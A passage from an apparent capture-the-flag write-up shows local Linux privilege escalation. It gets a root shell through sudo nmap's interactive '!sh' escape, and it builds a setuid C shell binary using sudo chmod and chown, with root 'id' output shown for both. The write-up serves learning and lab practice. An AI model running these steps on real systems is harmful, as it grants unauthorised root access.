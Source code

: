 ```none
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

The most obvious option seemed to be leveraging `nmap`. I had read about using `nmap` to spawn a root shell but had never done it. A quick look of [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#non-interactive-reverse-shell) showed how to run `nmap` as root and escape to a shell.

```none
bash-3.2$ sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

## Messing with SUID + chmod/chown

I haven't done much work with SUID and privesc - so learning (and documenting) is always useful. The `nmap` privesc is pretty well known - and felt a little too easy. Instead, I tried creating a SUID binaries. Here is an example that I got from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#create-a-suid-binary) and tweak a little.

```none
# Make the binary + set perms
cd /dev/shm
printf 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}\n' > suid.c
gcc -o suid suid.c
sudo /bin/chmod +x suid
sudo /bin/chmod +s suid
sudo /bin/chown root suid

# Run it
./suid 
sh-3.2# id
uid=0(root) gid=101(asterisk)
```

## Lessons Learned

- Old versions of SSL killed most of my exploits early on in this box <- remember to check! and debug properly!
- Remember it is not just about root - this box was super fun and learned a lot by digging around after getting the root flag
- I now know why people keep saying "enumerate properly" - it matters
